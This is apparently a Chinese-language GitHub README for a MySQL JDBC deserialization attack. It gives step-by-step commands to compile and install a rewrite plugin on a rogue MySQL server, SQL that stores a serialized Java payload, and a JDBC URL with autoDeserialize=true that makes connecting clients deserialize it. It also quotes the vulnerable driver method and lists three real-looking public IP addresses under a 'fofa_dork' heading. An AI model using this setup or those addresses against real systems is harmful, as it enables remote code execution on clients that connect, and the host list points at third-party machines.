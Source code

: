 # MySQL JDBC Deserialization Payload / MySQL客户端jdbc反序列化漏洞

# 描述
当MySQL JDBC url可控时，除了能利用MySQL协议读取MySQL Client的本地文件之外，还可以利用客户端在连接服务器时会反序列化服务器返回的二进制数据，从而触发反序列化漏洞。

# 详情

## 1. 安装rewrite插件
以下安装方式任选其一
### 【任选】编译插件
下载mysql-5.7.28源码到/root/mysql-5.7.28，https://launchpadlibrarian.net/451650638/mysql-5.7_5.7.28.orig.tar.gz
rewrite_example.cc见仓库
```shell
   gcc -shared -Wall -fPIC -o /usr/lib/mysql/plugin/rewrite_example.so rewrite_example.cc  -I/root/mysql-5.7.28/include $(mysql_config --cflags) $(mysql_config --libmysqld-libs) -DMYSQL_DYNAMIC_PLUGIN -lmysqlservices
```
### 【任选】直接使用本git仓库中的rewrite_example.so

复制rewrite_example.so到/usr/lib/mysql/plugin/rewrite_example.so即可。

> rewrite_example.so在Ubuntu16.04编译，如安装时出现问题请自行编译。

## 2. 安装插件，建表，插入二进制数据
安装插件
```sql
INSTALL PLUGIN rewrite_example SONAME 'rewrite_example.so';
```
建表
1. 创建数据库：codeplutos，请自行创建
2. 建表sql如下
```sql
SET NAMES utf8mb4;
SET FOREIGN_KEY_CHECKS = 0;

-- ----------------------------
-- Table structure for payload
-- ----------------------------
DROP TABLE IF EXISTS `payload`;
CREATE TABLE `payload` (
  `COLLATION_NAME` varchar(255) DEFAULT NULL,
  `CHARACTER_SET_NAME` blob,
  `ID` int(5) DEFAULT NULL,
  `IS_DEFAULT` varchar(255) DEFAULT NULL,
  `IS_COMPILED` varchar(255) DEFAULT NULL,
  `SORTLEN` int(5) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8;

-- ----------------------------
-- Records of payload
-- ----------------------------
BEGIN;
INSERT INTO `payload` VALUES ('1big5_chinese_ci', 0x01, 1, 'Yes', 'Yes', 1);
COMMIT;

SET FOREIGN_KEY_CHECKS = 1;

```
插入payload
```sql
set @a=0xaced00057372002;
update codeplutos.payload set character_set_name = @a;
```

## 3. 指定jdbc url，连接
```
jdbc:mysql://server:port/codeplutos?detectCustomCollations=true&autoDeserialize=true
```

# 漏洞触发点：
com.mysql.jdbc.ConnectionImpl#buildCollationMapping
```java
private void buildCollationMapping() throws SQLException {
    //......省略
    try {
        results = stmt.executeQuery("SHOW COLLATION");
        if (versionMeetsMinimum(5, 0, 0)) {
            Util.resultSetToMap(sortedCollationMap, results, 3, 2);
        } else {
            while (results.next()) {
                sortedCollationMap.put(results.getLong(3), results.getString(2));
            }
        }
    } catch (SQLException ex) {
        if (ex.getErrorCode() != MysqlErrorNumbers.ER_MUST_CHANGE_PASSWORD || getDisconnectOnExpiredPasswords()) {
            throw ex;
        }
    }
    //......省略
}
```

# fofa_dork
```bash
mysql://47.242.158.17:3306

mysql://47.243.68.129:3306

mysql://47.243.52.23:3306
```

# Reference
https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf
